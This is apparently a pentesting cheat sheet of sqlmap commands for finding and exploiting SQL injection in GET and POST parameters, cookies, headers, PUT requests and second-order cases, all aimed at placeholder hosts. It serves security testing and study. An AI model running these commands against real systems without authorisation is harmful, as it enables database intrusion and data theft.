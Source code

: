 # Injection place

## From Burp/ZAP Capture

Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user

```

## GET Request Injection

```bash
sqlmap -u "<http://example.com/?id=1>" -p id
sqlmap -u "<http://example.com/?id=*>" -p id

```

## POST Request Injection

```bash
sqlmap -u "<http://example.com>" --data "username=*&password=*"

```

## Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "<http://example.com>" --cookie "mycookies=*"

#Inside some header
sqlmap -u "<http://example.com>" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "<http://example.com>" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "<http://example.com>" --headers="referer:*"

#The injection is located at the '*'

```

## Second order Injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "<http://targetapp/wishlist>" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs

```
